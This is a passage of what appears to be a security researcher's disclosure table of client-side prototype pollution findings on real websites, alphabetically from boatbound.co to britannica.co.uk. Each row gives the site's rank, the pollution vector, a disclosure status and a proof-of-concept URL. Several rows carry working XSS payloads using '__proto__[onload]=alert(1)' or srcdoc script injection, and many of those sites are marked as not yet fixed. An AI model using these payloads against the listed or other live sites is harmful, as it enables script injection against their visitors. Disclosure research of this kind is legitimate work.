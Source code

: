 |boatbound.co|812214|URL search|-|Not|`https://www.boatsetter.com/party-boat-rentals/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|boatingindustry.com|231838|URL search|-|Reported|`https://boatingindustry.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bobitstudios.com|242156|URL|-|Reported|`https://bobitstudios.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bodyburdenproject.com|754126|URL search|-|Reported|`https://bodyburdenproject.com/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv&__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|bodylastics.com|497758|URL search|, URL-M|Fixed|`https://bodylastics.com/pages/resistance-bands-exercises/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|bodyluv.kr|434305|URL search|, Cookie-M|Reported|`https://bodyluv.kr/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|bodyshopbusiness.com|216187|URL|, URL-M|Not|`https://bodyshopbusiness.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bombbomb.com|31740|URL search|, Cookie-M, URL-M|Reported|`https://bombbomb.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bonafidepress.com|217043|URL search|-|Reported|`https://bonafidepress.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bonjoro.com|113922|URL search|, Cookie-M, URL-M|Reported|`https://bonjoro.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|booksupply.jp|939113|URL search|-|Reported|`https://booksupply.jp/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|borec.cz|102428|URL search|-|Reported|`https://www.webzdarma.cz/objednavka/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|botfaqtor.ru|800261|URL search|-|Reported|`https://botfaqtor.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|botify.com|111035|URL search|, URL-M|Reported|`https://botify.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|boulderboats.com|139852|URL search|, XSS|Reported|`https://www.boulderboats.com/default.asp?__proto__[srcdoc]=%3Cscript%3Ealert(1)%3C/script%3E&page=xAllInventory&make=chaparral`
|bouncepilot.com|138085|URL search|, Cookie-M|Reported|`https://bouncepilot.com/features/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|boutiqueuggsofr.top|947243|URL search|, Cookie-M|Reported|`https://boutiqueuggsofr.top/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bouw.ru|394958|URL search|, Cookie-M, URL-M|Reported|`https://bouw.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|boxx.com|102957|URL search|, Cookie-M, URL-M, XSS|Reported|`https://www.boxx.com/solutions/media-and-entertainment/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|boxxtech.com|603390|URL search|, Cookie-M, URL-M|Reported|`https://www.boxx.com/solutions/government-education-and-medical/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|bpl.org|39868|URL search|-|Reported|`https://bpl.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|brakeandfrontend.com|488613|URL|, URL-M|Not|`https://brakeandfrontend.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|brandonsun.com|42383|URL search|, URL-M|Reported|`https://www.brandonsun.com/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv&__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|brandsdistribution.com|138093|URL search|, Cookie-M, URL-M|Reported|`https://brandsdistribution.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|brandzooka.com|861991|URL search|-|Reported|`https://brandzooka.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|brazosport.edu|367742|URL|, URL-M|Reported|`https://brazosport.edu/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|breaknews.fr|318334|URL search|, URL-M|Fixed|`https://breaknews.fr/nous-sommes-juifs-et-antisionistes-lassociation-juive-ujfp-condamne-la-proposition-de-loi-visant-a-penaliser-lantisionisme-3/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|breezy.hr|8454|URL search|, URL-M|Reported|`https://breezy.hr/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|breitbart.com|646|URL search|, Cookie-M|Reported|`https://breitbart.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bremeninstitucional.com|937210|URL search|-|Reported|`https://bremeninstitucional.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|briancuban.com|978121|URL search|-|Reported|`https://briancuban.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|brickandmortarfunnels.com|897270|URL|, URL-M|Reported|`https://brickandmortarfunnels.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bridgeclimb.com|80652|URL|, URL-M|Reported|`https://bridgeclimb.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|brightinfo.com|547405|URL search|-|Reported|`https://brightinfo.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|brightondome.org|238371|URL|-|Reported|`https://brightondome.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|brightsidebeauty.com|109288|URL search|-|Reported|`https://brightsidebeauty.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|britannica.co.uk|585889|URL search|, Cookie-M|Reported|`https://britannica.co.uk/blog/britannica-launchpacks-international-covid-19-trial-resources/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`